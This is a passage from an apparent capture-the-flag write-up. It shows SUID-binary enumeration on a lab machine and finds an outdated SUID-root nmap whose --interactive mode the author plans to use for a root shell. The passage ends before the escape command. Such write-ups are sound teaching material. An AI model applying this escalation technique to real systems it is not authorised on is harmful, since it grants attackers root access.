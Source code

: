 </code></pre>
</div>

<p>Now let’s get some root.</p>

<h1 id="getting-to-root">Getting to root</h1>

<p>I enumerate the filesystem some more, digging around for SUID files:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>robot@linux:~$ find / -xdev -user root -perm -4000 -type f 2&gt;/dev/null
find / -xdev -user root -perm -4000 -type f 2&gt;/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown

</code></pre>
</div>

<p>Hmm, interesting.  The <code class="highlighter-rouge">nmap</code> program is SUID root:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>robot@linux:~$ ls -l /usr/local/bin/nmap
ls -l /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap

</code></pre>
</div>

<p>Even worse, it is a grossly outdated version:</p>

<div class="highlighter-rouge"><pre class="highlight"><code>robot@linux:~$ /usr/local/bin/nmap --version
/usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
</code></pre>
</div>

<p>Specifically, it is a grossly outdated version which supports the <code class="highlighter-rouge">--interactive</code> flag.  This allows us to drop into a kind of “nmap shell”, which we can then pivot into a real command shell:</p>
